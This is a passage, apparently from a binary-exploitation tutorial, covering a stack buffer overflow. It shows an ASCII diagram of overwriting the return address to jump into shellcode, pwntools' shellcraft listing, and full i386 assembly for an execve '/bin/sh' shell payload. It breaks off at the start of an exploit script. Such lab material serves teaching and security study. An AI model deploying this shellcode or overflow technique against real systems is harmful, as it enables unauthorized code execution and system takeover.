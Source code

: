             |<-- -0x18-->|+--- ebp 
  top                     v
  [          [       ]   ][fp][ra][shellcode ... ]
  |<----   0x28  ------->|     |  ^
                               |  |
                               +---

PwnTool also provides numerous ready-to-use shellcode as well.

  $ shellcraft -l
  ...
  i386.android.connect
  i386.linux.sh
  ...

  $ shellcraft -f a i386.linux.sh
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

shellcraft provides more than just this; a debugging interface (-d)
and a test run (-r), so please check: `shellcraft --help`

  $ shellcraft -d i386.linux.sh
  $ shellcraft -r i386.linux.sh

------------------------------------------------------------
exploit2.py
------------------------------------------------------------
#!/usr/bin/env python2

from pwn import *
